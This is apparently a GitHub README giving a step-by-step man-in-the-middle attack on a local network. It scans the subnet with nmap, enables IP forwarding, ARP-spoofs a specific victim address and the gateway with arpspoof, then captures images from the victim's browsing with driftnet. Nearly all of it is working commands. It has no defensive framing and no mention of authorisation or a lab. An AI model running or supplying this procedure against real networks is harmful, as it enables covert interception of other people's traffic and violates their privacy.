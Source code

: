 ## Man-in-the-middle-attack


- Discover network interfaces
```bash
ifconfig
```
- network interface: wlp0s20f3:

- Discover network and default gateway

```bash
ip route show
```
- network: 192.168.0.0/24
- default gateway: 192.168.0.1


```bash
nmap 192.168.0.0/24 -sn
```
> -sn: ping scan

- target: 192.168.0.18

### enable packets forwarding

```bash
sudo sysctl -w net.ipv4.ip_forward=1
```

### intercept packages from victim with arpspoof


```bash
arpspoof -i [Network Interface Name] -t [Victim IP] [Router IP]
```

> install arpspoof in ubuntu

```bash
sudo apt install dsniff
```


```bash
sudo arpspoof -i wlp0s20f3 -t 192.168.0.18 192.168.0.1    
```

### intercept packages from router with arpspoof

```bash
arpspoof -i [Network Interface Name] -t [Router IP] [Victim IP]
```

```bash
sudo arpspoof -i wlp0s20f3 -t 192.168.0.1 192.168.0.18
```


### sniff images from the victim navigation

```bash
sudo driftnet -i wlp0s20f3
```


### disable packets forwarding

```bash
sudo sysctl -w net.ipv4.ip_forward=0
```


